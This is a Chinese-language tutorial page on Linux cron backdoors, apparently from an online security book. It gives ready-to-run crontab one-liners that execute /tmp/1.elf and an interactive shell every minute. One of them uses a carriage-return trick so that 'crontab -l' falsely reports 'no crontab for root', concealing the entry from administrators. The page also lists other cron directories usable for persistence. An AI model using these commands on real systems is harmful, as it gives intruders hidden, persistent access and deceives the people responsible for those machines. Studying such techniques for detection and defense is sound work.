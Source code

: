 # Cron 后门

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/7.html](http://book.iwonder.run/安全技术/Linux 后门/7.html)

**Cron 介绍**

在 Linux 系统中，计划任务一般是由 cron 承担，我们可以把 cron 设置为开机时自动启动。cron 启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后 cron 会根据命令和执行时间来按时来调用工作任务。

**Cron 后门**

> cron 表达式在线生成：

[http://qqe2.com/cron](http://qqe2.com/cron)

```
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab - 
```

![image](img/e9bd6b93d61e7c5c659b6257b5ba2166.png)

这样执行会在 crontab 列表里出现，如果是如上执行的话，管理员执行 crontab -l 就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示”no crontab for root”。其实就达到了一个隐藏的效果，这时候管理员如果执行 crontab -l 就会看到显示”no crontab for root”。

```
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab - 
```

![image](img/c1c743ed600ce62ca486d1ed495a466b.png)

实际上是他将 cron 文件写到文件中。/var/spool/cron/crontabs/root 。而 crontab -l 就是列出了该文件的内容。

通常 cat 是看不到这个的，只能利用 less 或者 vim 看到，这也是利用了 cat 的一个缺陷，后面会讲到。

![image](img/6fdaf20bb32ff297068e41a4256a9e83.png)

/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 这几个路径都可以存放 cron 执行脚本,对应的时间不同。

